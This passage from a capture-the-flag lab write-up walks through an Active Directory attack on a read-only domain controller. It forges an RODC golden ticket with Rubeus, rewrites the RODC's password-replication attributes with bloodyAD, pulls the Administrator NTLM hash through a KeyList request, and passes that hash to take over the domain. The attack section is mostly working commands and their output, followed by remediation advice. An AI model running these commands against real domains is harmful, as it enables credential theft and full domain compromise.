3. The `KeyList` request is a legitimate Kerberos extension that real RODCs use to ask a writable DC to hand over an account's actual keys, once that RODC is authorized to cache them — this lets an RODC start servicing a user's logons without ever needing a live connection back to a writable DC again.
4. If the writable DC's records say `RODC01` is allowed to hold that account's credentials, it obliges — handing the plaintext-equivalent keys (NTLM/AES) straight back in the response.

The entire exploit, in other words, is convincing the writable DC that `RODC01` has been authorized to cache `Administrator`'s credentials, then asking for them.

### First Attempt — and Why It's Denied

```
*Evil-WinRM* PS> .\Rubeus.exe golden /rodcNumber:8245 /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 /user:Administrator /id:500 /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357
```

```
[*] Groups         : 520,512,513,519,518
[+] Forged a TGT for 'Administrator@garfield.htb'
[*] Ticket written to ticket_...kirbi
```

`/rodcNumber:8245` embeds `RODC01`'s numeric identifier (matching `krbtgt_8245`, stored on the RODC's computer object as `msDS-SecondaryKrbTgtNumber`) into the ticket, so the KDC recognizes it as RODC-originated rather than a normal domain TGT. `/id:500` and the embedded `Groups: ...,512,...` mark the impersonated identity as `Administrator`, a member of `Domain Admins` (RID 512).

Requesting a service ticket with `/keyList` against a writable DC:

```
*Evil-WinRM* PS> .\Rubeus.exe asktgs /enctype:aes256 /keyList /ticket:ticket_...kirbi /service:krbtgt/garfield.htb /dc:DC01.garfield.htb
```

```
[X] KRB-ERROR (20) : KDC_ERR_TGT_REVOKED
```

This fails, and it's expected to: every RODC has a password-replication policy — an _Allowed_ and a _Denied_ group (mirrored on the RODC's own computer object as `msDS-RevealOnDemandGroup` / `msDS-NeverRevealGroup`) — that decides whose credentials it is ever allowed to hold. By default, `Domain Admins` (and therefore `Administrator`, which the forged PAC lists as a member) sit in the built-in **`Denied RODC Password Replication Group`**:

```
*Evil-WinRM* PS> Get-ADObject "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb" -Properties msDS-NeverRevealGroup, msDS-RevealOnDemandGroup
```

```
msDS-NeverRevealGroup    : {Denied RODC Password Replication Group, Account Operators, Server Operators, Backup Operators...}
msDS-RevealOnDemandGroup : {Allowed RODC Password Replication Group}
```

```
*Evil-WinRM* PS> Get-ADGroupMember "Denied RODC Password Replication Group"
```

```
Domain Admins
Enterprise Admins
Schema Admins
Domain Controllers
krbtgt
...
```

In short: the writable DC sees a TGS request that claims to come from `RODC01`, impersonating an account that belongs to `Domain Admins` — a group `RODC01` is explicitly _forbidden_ from ever caching — and refuses outright. This is exactly the safety mechanism RODCs are designed around: even total compromise of a branch-office RODC (including its own krbtgt) should never translate into domain-wide credential exposure.

### Removing the Protection

An attempt to simply add `Administrator` to the allowed group directly fails — `l.wilson_adm`'s delegated rights don't extend to that group object itself:

```
bloodyad ... add groupMember "Allowed RODC Password Replication Group" Administrator
```

```
badldap.commons.exceptions.LDAPModifyException: insufficientAccessRights ...
```

The rights `l.wilson_adm` _does_ have, however (`WriteAccountRestrictions` over the `RODC01` computer object itself), cover the two attributes that actually decide this policy directly on `RODC01$`. Clearing the deny list and explicitly whitelisting `Administrator` for reveal:

```shell
bloodyad -u l.wilson_adm -p 'Password123!' -d garfield.htb --host 10.129.244.207 set object 'RODC01$' msDS-NeverRevealGroup
bloodyad -u l.wilson_adm -p 'Password123!' -d garfield.htb --host 10.129.244.207 set object 'RODC01$' msDS-RevealOnDemandGroup -v 'CN=Administrator,CN=Users,DC=garfield,DC=htb'
```

these two commands rewrite `RODC01`'s own password-replication policy so that, as far as any writable DC is concerned, `RODC01` is now explicitly trusted to hold `Administrator`'s credentials. This is only possible because the rights that are supposed to protect the rest of the domain from a compromised branch DC are themselves stored _on the RODC's own object_ — and `l.wilson_adm` already has full write access to that object.

### Second Attempt — Success

The ticket is re-forged (same command as before, since the previous one may have expired) and replayed:

```
*Evil-WinRM* PS> .\Rubeus.exe golden /rodcNumber:8245 /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 /user:Administrator /id:500 /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357
```

```shell
.\Rubeus.exe asktgs /enctype:aes256 /keyList /ticket:ticket_...kirbi /service:krbtgt/garfield.htb /dc:DC01.garfield.htb
```

```
[+] TGS request successful!
  UserName                 :  Administrator (NT_PRINCIPAL)
  Password Hash            :  EE238F6DEBC752010428F20875B092D5
```

With the reveal policy now permitting it, the writable DC's `KeyList` response hands back `Administrator`'s **actual current NTLM hash**, the exact primitive an RODC legitimately uses to start caching a newly-authorized account, here repurposed to exfiltrate the domain's most privileged password hash without ever touching `DC01` directly.

### Domain Compromise

```shell
nxc smb garfield.htb -u Administrator -H EE238F6DEBC752010428F20875B092D5 --shares
```

```
SMB   10.129.244.207  445    DC01   [+] garfield.htb\Administrator:EE238F6DEBC752010428F20875B092D5 (Pwn3d!)
```

---

## Root Flag

```
evil-winrm -i garfield.htb -u Administrator -H EE238F6DEBC752010428F20875B092D5
```

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
44a7************************b8b1
```

---

## Remediation

- **`Script-Path` write delegation:** Do not grant broad groups (`IT Support`, in this case) `WriteProperty` over the `Script-Path` attribute domain-wide. Logon-script assignment should be delegated per-OU, per-user, and audited with BloodHound just like any other GenericWrite/GenericAll edge.
- **SYSVOL/NETLOGON write permissions:** Restrict write access on the `scripts` subfolder under `SYSVOL` to Domain Admins / dedicated deployment accounts only; any account able to write there can trojan any logon script.
- **`ForceChangePassword` over privileged/admin-tier accounts:** `l.wilson` should never have held an unmonitored password-reset right over an administrative account like `l.wilson_adm`. Regularly audit ACLs with BloodHound for `ForceChangePassword`/`GenericAll` edges pointing at Tier-0/Tier-1 accounts.
- **Delegated rights over RODC computer objects:** `WriteAccountRestrictions` (and, by extension, control of `msDS-AllowedToActOnBehalfOfOtherIdentity`) over a domain controller object — RODC or not — is equivalent to full control of that DC. Delegated RODC administration should be scoped as narrowly as the built-in tooling allows, and never handed to a Tier-1 account that isn't explicitly trusted with DC-level access.
- **RODC password-replication policy (`msDS-NeverRevealGroup` / `msDS-RevealOnDemandGroup`):** These attributes are the only thing standing between a compromised RODC and full domain credential exposure. Monitor and alert on any modification to them (Directory Service Changes, Event ID 5136), and ensure the built-in `Denied RODC Password Replication Group` membership (`Domain Admins`, `Enterprise Admins`, `krbtgt`, etc.) is never removed or bypassed.
- **RBCD abuse:** Monitor writes to `msDS-AllowedToActOnBehalfOfOtherIdentity` on all computer objects, and review `ms-DS-MachineAccountQuota` (default `10`) — a nonzero value lets any authenticated user create machine accounts usable in delegation attacks such as this one.
- **Credential dumping on domain controllers:** `RODC01` should be hardened against local credential dumping tools (Credential Guard, restricted admin logons, EDR) just as any writable DC would be; RODCs are a lower trust tier, not a "safe" place to run arbitrary tooling as `Administrator`.

---
## References

- [The Hacker Recipes — Logon Script Abuse (DACL)](https://www.thehacker.recipes/ad/movement/dacl/logon-script)
- [offsec.blog — Identifying Misconfigured and Dangerous Logon Scripts](https://offsec.blog/hidden-menace-how-to-identify-misconfigured-and-dangerous-logon-scripts/)
- [The Hacker Recipes — Resource-Based Constrained Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations/resource-based-constrained-delegation)
- [The Hacker Recipes — RODC Golden Tickets](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/rodc-golden-tickets)
- [Microsoft Learn — Planning Domain Controller Placement (RODC overview)](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/planning-domain-controller-placement)
- [Microsoft Learn — [MS-ADTS] Read-Only Domain Controller Object](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/73d11ea7-e634-453e-944d-559654cc91c5)
- [BloodHound Community Edition](https://github.com/SpecterOps/BloodHound)
- [bloodyAD](https://github.com/CravateRouge/bloodyAD)
- [PowerView (PowerSploit)](https://github.com/PowerShellMafia/PowerSploit)
- [Impacket](https://github.com/fortra/impacket)
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [ligolo-ng](https://github.com/nicocha30/ligolo-ng)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)